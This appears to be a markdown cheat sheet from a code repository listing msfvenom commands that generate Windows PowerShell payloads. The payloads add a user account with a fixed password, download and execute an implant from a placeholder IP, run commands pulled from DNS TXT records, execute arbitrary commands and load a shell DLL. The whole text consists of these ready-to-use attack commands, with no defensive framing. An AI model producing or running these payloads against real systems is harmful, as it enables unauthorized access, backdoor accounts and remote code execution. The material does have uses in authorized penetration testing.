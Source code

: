 # Exec Payloads

## 01 - Add User

```
$ msfvenom -p cmd/windows/powershell/adduser user=sysadmin pass=Password1234! wmic=[true | false] custom=<group_name> -f raw
```

## 02 - Download and Execute

```
$ msfvenom -p cmd/windows/powershell/download_exec exitfunc=<seh | thread | process | none> exe=<filename>.exe url=http[s]://<IP>/implant.exe
```

## 03 - DNS TXT Query Exec

```
$ msfvenom -p cmd/windows/powershell/dns_txt_query_exec dnszone=<domain.com>
```

## 04 - Execute

1. x86 (32-bit) Payloads

```
$ msfvenom -p cmd/windows/powershell/exec cmd=<commands>

$ msfvenom -p cmd/windows/powershell/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>

$ msfvenom -p cmd/windows/powershell/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>
```

2. x86-64 (64-bit) Payloads

```
$ msfvenom -p cmd/windows/powershell/x64/exec cmd=<commands>

$ msfvenom -p cmd/windows/powershell/x64/loadlibrary dll=C:\\path\\to\\shell.dll exitfunc=<seh | thread | process | none>

$ msfvenom -p cmd/windows/powershell/x64/messagebox icon=<NO | ERROR | INFORMATION | WARNING | QUESTION> text="<text>" title="<title>" exitfunc=<seh | thread | process | none>
```

## 05 - Text-To-Speech

```
$ msfvenom -p cmd/windows/powershell/speak_pwned
```